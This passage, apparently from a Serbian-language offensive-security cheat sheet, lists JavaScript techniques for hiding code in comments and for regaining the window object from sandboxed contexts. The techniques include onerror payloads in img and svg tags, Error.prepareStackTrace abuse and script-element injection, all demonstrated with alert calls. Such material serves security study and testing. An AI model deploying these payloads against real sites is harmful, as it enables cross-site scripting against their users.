 ```javascript
(function (){ return retFunc => String(arguments[0]) })(a=>{/* Hidden commment */})()
(function (){ return retFunc => Array(arguments[0].toString()) })(a=>{/* Hidden commment */})()
(function (){ return String(this)}).bind(()=>{ /* Hidden commment */ })()
(u=>(String(u)))(_=>{ /* Hidden commment */ })
(u=>_=>(String(u)))(_=>{ /* Hidden commment */ })()
```

## Sandbox Escape - Povratak window objekta

Objekat Window omogućava pristup globalno definisanim funkcijama kao što su alert ili eval.

{% code overflow="wrap" %}
```javascript
// Some ways to access window
window.eval("alert(1)")
frames
globalThis
parent
self
top //If inside a frame, this is top most window

// Access window from document
document.defaultView.alert(1)
// Access document from a node object
node = document.createElement('div')
node.ownerDocument.defaultView.alert(1)

// There is a path property on each error event whose last element is the window
<img src onerror=event.path.pop().alert(1337)>
// In other browsers the method is
<img src onerror=event.composedPath().pop().alert(1337)>
// In case of svg, the "event" object is called "evt"
<svg><image href=1 onerror=evt.composedPath().pop().alert(1337)>

// Abusing Error.prepareStackTrace to get Window back
Error.prepareStackTrace=function(error, callSites){
2   callSites.shift().getThis().alert(1337);
3 };
4 new Error().stack

// From an HTML event
// Events from HTML are executed in this context
with(document) {
with(element) {
//executed event
}
}
// Because of that with(document) it's possible to access properties of document like:
<img src onerror=defaultView.alert(1337)>
<img src onerror=s=createElement('script');s.append('alert(1337)');appendChild(s)>
```
{% endcode %}
